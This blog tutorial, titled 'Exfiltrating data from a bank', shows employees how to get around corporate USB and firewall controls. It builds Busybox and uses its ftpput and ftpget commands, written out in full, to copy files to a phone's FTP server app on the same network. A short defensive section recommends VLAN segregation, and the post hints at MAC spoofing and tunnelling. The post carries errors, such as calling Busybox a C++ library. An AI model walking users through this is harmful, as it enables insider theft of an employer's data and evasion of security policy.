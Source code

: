 ```yaml
---
title: Exfiltrating data from a bank
author: hugo
date: 2023-04-04 09:11:00 +0200
categories: [Tutorial, security]
tags: [hacking, android, cmake]
render_with_liquid: false
---
```



> This tutorial will guide you through the process of bypassing security procedures from your employer. The author gives this example for educational purposes and does not incentivise you to apply these techniques without prior consent
{: .prompt-info }


## The art of deception

_The best defense is a good offense_. Once you're able to set this up and try it yourself you'll get a good grasp of how this attack works and what your employer should do to improve their security. Let's define what we mean by "insecure design".

<em>Insecure Design is a category of weaknesses that originate from missing or ineffective security controls. Some applications are built without security in mind. Others do have a secure design, but have implementation flaws that can lead to exploitable vulnerabilities.</em> [`A04:2021—Insecure Design`](https://www.imperva.com/learn/application-security/owasp-top-10/).

Today's exercise is a quick showcase of a C++ library called Busybox. Head over to busybox's [download page](https://busybox.net/downloads/) to build this library from source. I'll go over the setup in the next section so if that's what you came for you can skip the next couple paragraphs.

![click-jacking success](/assets/img/posts/2023-04-04_02-25.png){: width="100%"}

If you've worked in corporate environments you'll know that moving data around is impossible to do with regular USB mass storage devices. These measures are in place to prevent fraud or data theft. Most vendors like microsoft or red hat linux and citrix provide ways to block the usage of these mass storage devices as well. The picture above showcases how to enable this security measure on Windows 10.

So how would a hacker go about exfiltrating data out of this corporate environment? Well there are multiple ways of going about it and it will largely depend on your constraints. Most corporate clients these days will shield their systems and employees from the internet by using firewalls like pfsense that manage a black list of websites that go against the company's policies. You won't be surprised to know that trello, github, gitlab, excel online, google sheets, dropbox or any of those services have to be blocked in order to avoid the risk of someone (accidently) storing data on those services.

However, corporate or not most companies will need developers to work on their codebase who will lobby against these security measures to have a certain degree of openness and allow them to shamelessly copy open source projects. Compromises will therefore have to be made.

A friend told me once he remembers working at client site and suddenly being blocked from downloading his python libraries from pypi.org which is (as far as I know) the single biggest repository out there. This measure had come about because trojan and viruses were being discovered by security researchers on pypi and published in the news. Management's natural reaction was to block the whole thing alltogether. Thankfully for him, they blocked the proxy used by "pip" but forgot that you could just as well download and install your libraries from source on [pypi's](https://pypi.org/) website so that measure didn't stop or help security. The only option that would have made sense would have been to create a central repo administered by engineers who examined the software line by line before accepting external libraries. I'm sure RHEL or Microsoft have found ways to do that and probably already sell those services to corporate clients.

## Strategy and setting up your work bench

The plan is to set Busybox as a relay and send our data to our phones via the file transfer protocol (FTP). I used an app called "WiFi FTP Server" on google's play store but I'm sure any FTP app will do.

Let's now unzip the c++ library and create the Busybox executable with the next two commands.

```console
    [waz@localhost]# make defconfig
    [waz@localhost]# make
    
```

In case you want to add Busybox to your path and be able to run it anywhere on your system run `sudo make install instead`. You probably won't have superuser privileges on your corporate laptop so let's stick with our user executable.

## Sending and receiving files

Let's try sending a test file. Start up your ftp server on your phone and note down your phone's IP and port number. In order to send a file to your phone the only command you'll need is 

```console
    [waz@localhost]# echo "It works !" > data.txt
    [waz@localhost]# busybox ftpput 192.168.178.43:2221 data.txt
    
```

You can always add the -v option to the command above to have more information on what's happening under the hood.

We've just uploaded a file onto our phone but what if we needed to download some legally obtained torrents to stream a tv show during work hours? Well that can be done with the exact same process using the `ftpget` command instead. 

## Video

I like to add a small clip to showcase what was said so far. Enjoy !

<div style="padding-top: 5px; padding-bottom: 5px; position:relative; display:block; width: 100%; min-height:400px">

<iframe width="100%" height="400px" src="https://minio-api.thekor.eu/chirpy-videos-f1492f08-f236-4a55-afb7-70ded209cb28/chirpy/2023-04-04%2021-02-59.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

</div>

## Conclusion

Exfiltrating data from banks is not an easy endeavour but thankfully there are holes in the security policies that make it so much easier. This phone pairing was possible because the phone was able to connect to the same network as the laptop. What a coporate client could have done to combat this type of attack is to simply seggregate its devices into different virtual local area networks (VLANs for the nerds out there). The laptops supplied to the employees have mac addresses that would assign them to VLAN 1 for example while any other employee device would connect to VLAN2. By using this setup you would prevent devices from VLAN 2 from communicating with devices on VLAN 1.

In this hypothetical scenario where the employer did implement separate VLANs the hacker could instead send his ftp requests over to a server on the internet instead or spoof the mac address of the company's laptop but that is out of scope of this tutorial. The request would probably get blocked by the ftp port being closed by a firewall or security policy anyway so let's leave that analysis for a future article. I might write a follow up to this article on how to do spoofing or how to modify the ip tables that route the laptop's traffic to re-route our ftp traffic through an SSH, VPN or SOCKSv5 connecion. 

Thank you for reading this far.

Take care
